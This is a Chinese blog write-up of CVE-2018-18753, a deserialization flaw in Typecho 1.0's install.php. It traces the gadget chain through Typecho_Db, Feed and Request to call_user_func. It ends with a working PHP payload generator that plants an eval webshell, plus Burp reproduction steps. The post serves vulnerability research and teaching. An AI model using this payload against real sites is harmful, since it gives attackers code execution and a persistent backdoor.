









# CVE-2018-18753 Typecho 反序列化漏洞 分析复现 - FreeK0x00 - 博客园

> 原文：[`www.cnblogs.com/wuhongbin/p/15526142.html`](https://www.cnblogs.com/wuhongbin/p/15526142.html)

# 0x00 漏洞简介

*   CVE-2018-18753

*   漏洞概述：
    typecho 是一款非常简洁快速博客 CMS，前台 install.php 文件存在反序列化漏洞，通过构造的反序列化字符串注入可以执行任意 PHP 代码。

*   影响版本：typecho1.0（14.10.10）

# 0x01 漏洞环境

1.  上传源码到 WEB 目录，上传完毕后使用浏览器直接访问安装目录即可看到 Typecho 的 **安装程序** install.php。
2.  提前在 Mysql 数据库中创建好一个库 名 Typecho，下一步会使用这个数据库
3.  按照提示更改你的数据库相关信息和默认账号信息等等，手动生成提示的配置文件，最后按提示进行安装即可。



# 0x02 漏洞分析

1.  在 **install.php** 中发现了反序列化入口
    这里将 Typecho_cookie::get()方法的值 base64 解码 再反序列化回来赋值给 $config


2.  全局搜索定位 **Typecho_Cookie::get()** 方法，定位到文件 **/var/Typecho/Cookie.php** 中发现 _typercho_config 是可控的，可以看到这里对 POST 或者 Cookie 传入的 __typecho_config 变量进行一个反序列化，并且不能为数组。


3.  我们再回到 install.php 中 继续分析，**Typecho_Cookie::delete()** 方法用于删除指定的 cookie 值



4.  接下来 new 了一个 Typecho_Db 的新对象$db，将 $config 中的 adapter 和 prefix 的值传入


5.  全局搜索定位类 **Typecho_Db**，定位到文件 **/var/Typecho/Db.php**，到这个 **__construct()** 魔术方法中，这里将对象 **$adapterName** 直接拼接在一串字符串后面，也就是将 $adapterName 当作字符串拼接之后赋值给了 $adapterName，这个时候如果 adapterName 如果为一个对象的话，就会自动调用 **__toString** 魔术方法。



6.  全局搜索 **__toString**()，定位到文件**/var/Typecho/Feed.php** ，发现使用了 $item['author']->screenName，而这个$item 是$this->_items 里面循环出来的，将 $item['author'] 赋值为一个对象，那么对象中的 screenName 不可访问的时候(私有或者不存在) 就会调用 __get() 魔术方法

    > php 面向对象编程中是 **禁止在对象外直接访问由 private 所定义的私有属性**，但是在类中添加魔术方法 __set()，__get()，__isset()，__unset()后可间接访问对象中的私有属性。


7.  全局搜索 **function __get()** 魔术方法，定位到文件 **/var/Typecho/Request.php**



8.  继续跟进 **get()** 方法



9.  get() 方法最后调用了一个 **_applyFilter()** 方法，跟进



10.  发现 **敏感函数 call_user_func()** ，而且里面的两个参数都是$filter 是 $this->_filter 循环出来的 ，$value 则是由上面的 get() 函数中传参进来的，两个参数都是可控的，可以构造 $filter 为 system , $value 为 whoami ，就可以命令执行了

# 0x03 漏洞利用

1.  上文分析可知 **反序列化漏洞** 存在于 **install.php** 文件的安装程序中，要正确执行安装程序需要两个参数，第一个参数就是通过 GET 传参一个 **finish** 赋一个任意值，第二个就是 **_typecho_config** 参数，而 这个**_typecho_config** 参数这个参数就是我们反序列化漏洞利用的重点。我们构造一个序列化后的字符串 POC 赋给 **_typecho_config** 参数，配合上文漏洞分析最后 1 步分析出的 **敏感函数 call_user_func()** 就可以达到命令执行的效果。



2.  上文漏洞分析中第 2 步中，知道 **__typecho_config** 参数是由 Cookie 或者 POST 传参而来，且不能是数组。确定 payload 传参方式

3.  下面分析重点就是如何构造一个序列化的字符串 **_typecho_config**，让其最终传入 **敏感函数 call_user_func()** 中而达到命令执行

4.  上文漏洞分析中第 4 步 追踪 对象$db 的 new 的过程，发现在这个类的 **__construct()** 魔术方法中，对象 **$adapterName** 直接拼接到字符串中，会自动调用 **__toString**()魔术方法。而又通过全局搜索**__toString**()魔术方法 （上文漏洞分析中第 6 步），得知使用了一个属性可以利用$item['author']->screenName，$item['author']赋值为一个对象，那么对象中的 screenName 不可访问的时候(私有或者不存在) 就会调用**__get()** 魔术方法。继续追踪 **__get() 魔术方法**，最终于发现 **敏感函数 call_user_func()** 并且它的两个参数 \$filter 和 $value 都是可控的。

5.  $filter 是 class Typecho_Request 的私有属性，$item['author'] 也就是 $this->_items 即 class Typecho_Feed 的 私有属性 $_items，问题来了，漏洞利用在 class Typecho_Request 中，$item['author'] 是对象时，访问私有属性 screenName 调用的 **__get()** 魔术方法是 class Typecho_Feed 的才能最终利用 **敏感函数 call_user_func()** 执行命令。解决方法是在 class Typecho_Feed 中 __construct()魔术方法中 new 一个 class Typecho_Request 的对象就可以解决。

6.  由于 要绕过 **敏感函数 call_user_func()** 中的 is_array，因此 class Typecho_Request 中 私有属性 数据结构都是 **array**

7.  由上文漏洞分析中第 4 步和第 5 步可知，$db 对象新建时传入了两个参数 $config['adapter'] 和 $config['prefix']，对象新建是首先会调用 **__construct()** 魔术方法，联系起来，$config['adapter']=new Typecho_Feed() 即可全部串起来。

8.  最终的 payload 如下：

```
<?php
class Typecho_Request{
    private $_params= array('screenName'=> "file_put_contents('shell.php', '<?php eval(\$_POST[z]);//?>')");
    private $_filter= array('assert');
}
class Typecho_Feed{
    private $_items=array();
    private $_type='ATOM 1.0';
    public function __construct()
    {
        $items['author']=new Typecho_Request();
        $this->_items[0]=$items;
    }
}
$config['adapter'] = new Typecho_Feed();
$config['prefix'] = 'typecho';	// 值是任意的
$payload = base64_encode(serialize($config));
echo $payload;
?> 
```

# 0x04 漏洞复现

1.  复制 payload，浏览器执行获取 base64 编码后的 payload 字符串


2.  burp 抓包，发送 payload，**注意：Referer 需要是本站**



3.  成功写入 shell.php



